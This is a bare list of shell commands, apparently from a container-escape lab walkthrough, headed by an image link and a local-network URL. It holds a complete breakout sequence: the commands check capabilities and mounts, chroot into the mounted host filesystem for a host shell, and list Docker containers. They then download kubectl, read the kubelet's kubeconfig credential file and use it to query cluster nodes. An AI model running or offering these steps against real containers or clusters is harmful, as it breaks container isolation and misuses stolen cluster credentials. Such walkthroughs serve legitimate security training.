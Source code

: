 http://192.168.1.50:1233/

id
capsh --print
mount
ls /host-system/

chroot /host-system bash

docker ps
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

cat /var/lib/kubelet/kubeconfig
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes



